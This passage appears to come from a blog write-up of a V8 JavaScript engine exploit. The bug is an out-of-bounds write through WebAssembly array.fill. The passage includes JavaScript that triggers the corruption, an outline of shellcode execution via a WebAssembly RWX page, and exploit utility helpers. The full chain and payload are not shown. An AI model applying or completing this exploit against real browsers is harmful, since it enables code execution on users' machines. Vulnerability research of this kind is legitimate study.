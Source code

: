 ```wat
```

Here, we create an array of 12 elements, but call `array.fill` with a length of 0x15 (21). Due to the right shift, the bounds check passes, but the function writes far beyond the end of the array.

In JavaScript, we can interact with this module as follows:

```js
var wasm_code = new Uint8Array([
  // ... wasm binary ...
]);

var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var fil = wasm_instance.exports.fillArray;
var creArray = wasm_instance.exports.createArray;

let a = creArray();
let oob = [1.1, 2.2, 3.3, 4.4];
let oob_helper = [69.69, 2.2, 3.3, 4.4];
let addr_helper = [{}, {}]
fil(a)
```

> Approach: I used `arrayfill` twice—first to corrupt the size and elements pointer, then to fix up the map and property pointers for a stable exploit.

## Exploitation Steps

Once out-of-bounds access is achieved, the rest of the exploit follows standard V8 exploitation techniques, such as leveraging a WebAssembly RWX page to run shellcode, as the heap sandbox is disabled. If you need more details, check out my other [blogs](https://tourpran.github.io/posts/v8-ArrayShift-Race-Condition.html)!

> Note: The exploit may not work reliably on all setups. I had to brute-force the offset variable for stability.

```js
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

function print(x){
    console.log("[+] " + x);
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

```